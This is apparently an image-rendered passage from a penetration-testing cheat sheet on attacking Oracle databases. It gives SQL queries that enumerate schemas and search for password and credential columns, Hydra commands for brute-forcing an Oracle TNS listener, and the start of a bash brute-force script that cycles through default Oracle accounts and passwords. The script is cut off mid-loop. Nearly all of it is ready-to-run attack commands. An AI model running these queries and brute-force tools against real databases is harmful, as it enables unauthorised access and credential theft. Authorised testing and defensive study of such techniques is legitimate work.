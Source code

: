 ### System Information Queries

#### Database Schema Enumeration
```sql
-- List all tables accessible to current user
SELECT table_name FROM all_tables;

-- List tables owned by current user
SELECT table_name FROM user_tables;

-- List all schemas/users with tables
SELECT DISTINCT owner FROM all_tables ORDER BY owner;

-- Get table structure
DESCRIBE table_name;
SELECT column_name, data_type FROM all_tab_columns WHERE table_name = 'TABLE_NAME';
```

#### Sensitive Data Discovery
```sql
-- Search for tables with specific names
SELECT owner, table_name FROM all_tables WHERE table_name LIKE '%USER%';
SELECT owner, table_name FROM all_tables WHERE table_name LIKE '%PASS%';
SELECT owner, table_name FROM all_tables WHERE table_name LIKE '%CRED%';

-- Search for columns with sensitive names
SELECT table_name, column_name FROM all_tab_columns 
WHERE column_name LIKE '%PASS%' OR column_name LIKE '%PWD%';

-- Find views
SELECT view_name FROM all_views;
```

---

## Credential Attacks

### Brute Force Attacks

#### Hydra
```bash
# Oracle TNS brute force
hydra -L users.txt -P passwords.txt oracle-listener://target

# Single user attack
hydra -l system -P passwords.txt oracle-listener://target

# Specify SID
hydra -L users.txt -P passwords.txt oracle-listener://target:1521/XE
```

#### Custom Oracle Brute Force Script
```bash
#!/bin/bash
# Oracle brute force script

TARGET=$1
SID=$2
USERS=("system" "sys" "scott" "hr" "dbsnmp" "oracle")
PASSWORDS=("manager" "change_on_install" "tiger" "hr" "dbsnmp" "oracle" "password" "admin")

for user in "${USERS[@]}"; do
    for pass in "${PASSWORDS[@]}"; do
        echo "Testing $user:$pass"
```